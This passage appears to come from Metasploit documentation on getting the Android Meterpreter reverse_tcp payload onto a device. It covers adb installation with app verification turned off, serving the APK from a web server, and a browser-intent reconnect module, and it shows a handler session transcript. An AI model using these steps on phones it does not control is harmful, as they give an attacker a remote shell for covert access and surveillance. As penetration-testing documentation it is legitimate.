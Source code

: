 Under Developer Options, make sure to:

* Enable USB debugging
* Disable Verify apps via USB
* Open a terminal, and type: `adb devices`. On your Android device, you
  should see a prompt asking you to allow the computer for debugging,
  click OK on that.
* Do: `adb devices` again, adb should now have access.

Run the installer script like this from a terminal:

    $ tools/exploit/install_msf_apk.sh /tmp/android.apk

And you should get a session.


**Uploading APK from a Web Server**

One way to upload an APK to Android without adb is by hosting it from a
web server. To do this, you must make sure to allow to trust "Unknown
sources". The way to do this varies, but normally it's something like
this: Settings -> Security -> Check "Unknown Sources"

Once you have that changed, you'll need to:

1. Generate the APK payload.
2. Start a web server from the directory where the payload is:
   `ruby -run -e httpd . -p 8181`
3. On your Android device, open a browser, and download the APK.
4. You should be able to find the APK from the Downloads folder, install
   it.
5. After installation, you will have to manually execute it.

**Reconnect Android Meterpreter from the Browser Remotely**

When you have the APK payload installed on your Android device, another
trick to reconnect it is to launch an intent from a browser. An intent
is simply a term in Android development that means "an operation to be
performed."

Here's how you do this:

1. In msfconsole, start a `multi/handler` for
   `android/meterpreter/reverse_tcp` as a background job.
2. Do: `auxiliary/server/android_browsable_msf_launch`.
3. Set the URIPATh if needed.
4. Do: `run`. At this point, the web server should be up.
5. On your Android device, open the native web browser, and go the URL
   generated by the auxiliary module.
6. The Android handler should get a session like the following demo:

    msf > use exploit/multi/handler
    msf exploit(handler) > set PAYLOAD android/meterpreter/reverse_tcp
    PAYLOAD => android/meterpreter/reverse_tcp
    msf exploit(handler) > set LHOST 192.168.1.199
    LHOST => 192.168.1.199
    msf exploit(handler) > set EXITONSESSION false
    EXITONSESSION => false
    msf exploit(handler) > run -j
    [*] Exploit running as background job.


[sdk]: http://developer.android.com/sdk/index.html#Other
[studio]: http://developer.android.com/sdk/installing/index.html?pkg=studio
[genymotion]: https://www.genymotion.com/download/
[avd]: https://github.com/dral3x/AndroidAVDRepo